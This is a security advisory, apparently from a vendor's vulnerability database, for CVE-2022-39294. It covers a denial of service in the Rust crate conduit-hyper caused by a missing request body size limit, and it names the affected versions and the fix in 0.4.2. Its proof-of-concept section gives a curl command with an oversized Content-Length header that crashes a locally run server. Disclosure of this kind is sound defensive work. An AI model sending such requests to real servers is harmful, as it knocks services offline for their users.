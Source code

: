```yaml
---
description: CVE-2022-39294 High severity. Missing limit checks in conduit-hyper leads to denial of service
title: conduit-hyper missing request size limit DoS
date_published: "2022-11-01"
last_updated: "2022-11-01"
xray_id:
vul_id: CVE-2022-39294
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
A missing request size limit for HTTP requests in conduit-hyper can allow network attackers to perform denial of service

## Component

[conduit-hyper](https://crates.io/crates/conduit-hyper)

## Affected versions

[0.2.0-alpha.3, 0.4.2), fixed in 0.4.2



## Description

conduit-hyper would not, by default, set a limit for the size of the request body. That meant if a malicious peer would send a request with a very large `Content-Length` header (even if the body itself is not very large), the Rust allocator would panic (due to a failed allocation) and the process would crash.



## PoC

```bash
git clone https://github.com/conduit-rust/conduit-hyper

cd conduit-hyper && cargo run --example server

curl -v -X PUT "http://127.0.0.1:12345/" --data `python3 -c
"import sys; sys.stdout.write('a'*10000)"` -H
"Content-Length: 11111111111111111111"
```



## Vulnerability Mitigations

No mitigations are provided for this vulnerability.

In order to fully fix this vulnerability, we recommend upgrading conduit-hyper to version 0.4.2



## References

[GHSA](https://github.com/conduit-rust/conduit-hyper/security/advisories/GHSA-9398-5ghf-7pr6)